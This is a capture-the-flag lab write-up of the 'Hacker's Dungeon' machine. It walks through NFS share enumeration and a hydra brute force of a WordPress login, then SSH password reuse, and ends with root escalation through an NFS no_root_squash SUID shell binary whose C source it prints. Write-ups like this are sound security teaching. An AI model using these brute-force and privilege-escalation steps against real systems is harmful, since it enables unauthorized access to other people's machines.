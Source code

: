 ```yaml
---
title: Hacker's Dungeon Machine Write up
categories: [Write-ups, MachinesCTF]
tags: [CTF,Pentesting]     # TAG names should always be lowercase
comments: false
published: true
---
```


# Hacker's Dungeon
IP: 10.0.0.133
## **Enumeration**
We start by scanning the machine with nmap.

Discover all open ports:

![Alt text](/assets/img/machinesCTF/Hackers-Dungeon/image.png)

Check what is exactly running on these ports:

![Alt text](/assets/img/machinesCTF/Hackers-Dungeon/image-1.png)

## **Foothold**

### Port 111 and 2049
Check HackTricks for pentesting rpcbin and nfs.

https://book.hacktricks.xyz/network-services-pentesting/pentesting-rpcbind#rpcbind-+-nfs

https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting#enumeration

List NFS mounts:
```bash
nmap --script="nfs-showmount" 10.0.0.133
```
![Alt text](/assets/img/machinesCTF/Hackers-Dungeon/image-13.png)

There is one folder `/dungeon`.

Mount this folder. 
```bash
mkdir /tmp/mount
```
```bash
sudo mount -t nfs 10.0.0.133:dungeon /tmp/mount -o nolock
```

![Alt text](/assets/img/machinesCTF/Hackers-Dungeon/image-14.png)

Nothing interesting.

### Port 80
As we saw in our nmap scan that the robots.txt file has one disallowed directory which is `wp-admin` which indecates that there is a wordpress running on port 80.

Visiting the site.

We know the version of wordpress and apache this might be helpfull, but let us look around more.
![Alt text](/assets/img/machinesCTF/Hackers-Dungeon/image-4.png)

![Alt text](/assets/img/machinesCTF/Hackers-Dungeon/image-5.png)
Nothing seems interesting.

Checking the post by cliking on the date.

![Alt text](/assets/img/machinesCTF/Hackers-Dungeon/image-6.png)
We notice that the post was written by  user kasi.

We can confirm that the user kasi exists by trying to login with any random password on `wp-login.php` adn reading the error message.

The different weeor message will be displayed if we try random username and password `test:test`.

![Alt text]/assets/img/machinesCTF/Hackers-Dungeon/(image-7.png)

We try to brute force kasi's password using hydra.

```bash
hydra -l kasi -P /usr/share/wordlists/rockyou.txt 10.0.0.133 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^:F=incorrect" 
```
![Alt text](/assets/img/machinesCTF/Hackers-Dungeon/image-8.png)

We got the user's password `dogcat`.

After logging in we land on the profile page of the user, there is nothing interesting there.

![Alt text](/assets/img/machinesCTF/Hackers-Dungeon/image-9.png)

Going around the dashboard we find out that we are normal user, so we cant do much.

Let us try and login with the same credentials thru ssh, there is a great chance the password is reused.

![Alt text](/assets/img/machinesCTF/Hackers-Dungeon/image-10.png)

And we are in!!

We can find the user.txt flag in the user's home directory.

![Alt text](/assets/img/machinesCTF/Hackers-Dungeon/image-11.png)

## **Privilege Escalation**

Running `sudo -l` to check what the user kasi can run using sudo.

![Alt text](/assets/img/machinesCTF/Hackers-Dungeon/image-12.png)

Run python simple web server on our attacking machine to host linpeas.sh, to transfer it to the machine.

```bash
python3 -m http.server 80
```

![Alt text](/assets/img/machinesCTF/Hackers-Dungeon/image-15.png)
![Alt text](/assets/img/machinesCTF/Hackers-Dungeon/image-16.png)

What is root_squash?

root_squash will allow the root user on the client to both access and create files on the NFS server as root. Technically speaking, this option will force NFS to change the client’s root to an anonymous ID and, in effect, this will increase security by preventing ownership of the root account on one system migrating to the other system. This is needed if you are hosting root filesystems on the NFS server (especially for diskless clients); with this in mind, it can be used (sparingly) for selected hosts, but you should not use no_root_squash unless you are aware of the consequences.

[Read about the vulnerability.](https://www.thegeekdiary.com/basic-nfs-security-nfs-no_root_squash-and-suid/)

We need to make a binary that will set our user id to 0 and givves us a shell as root.

```C
#include <stdio.h>
int main(void){
    setreuid(0,0);
    system("/bin/bash");
    return 0;
      }
```

Compile it using gcc.

```bash
gcc test.c -o test 
```

As the root user on the attacking machine copy the binray `test` to the mounted directory, and set the SUID bit for it.

![Alt text](/assets/img/machinesCTF/Hackers-Dungeon/image-17.png)
![Alt text](/assets/img/machinesCTF/Hackers-Dungeon/image-18.png)

Back to the target machine on /dungeon we can find the binary and run it.

![Alt text](/assets/img/machinesCTF/Hackers-Dungeon/image-19.png)

We can find the root.txt flag in the root user's home directory.

![Alt text](/assets/img/machinesCTF/Hackers-Dungeon/image-20.png)